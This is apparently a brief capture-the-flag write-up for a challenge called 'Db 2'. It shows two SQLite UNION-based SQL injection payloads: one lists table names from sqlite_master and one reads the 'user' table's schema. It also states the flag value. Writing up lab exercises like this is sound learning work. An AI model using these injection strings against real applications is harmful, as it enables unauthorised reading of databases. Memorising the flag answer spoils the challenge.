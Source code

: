 # Db 2

After looking up sqlite formats i made the payload

```sql
' UNION SELECT name,NULL,NULL,NULL FROM sqlite_master;--
```

To get all table names and then

```sql
' UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master WHERE name = 'user' AND type = 'table';--
```

To get the settings of that table. the flag was 58

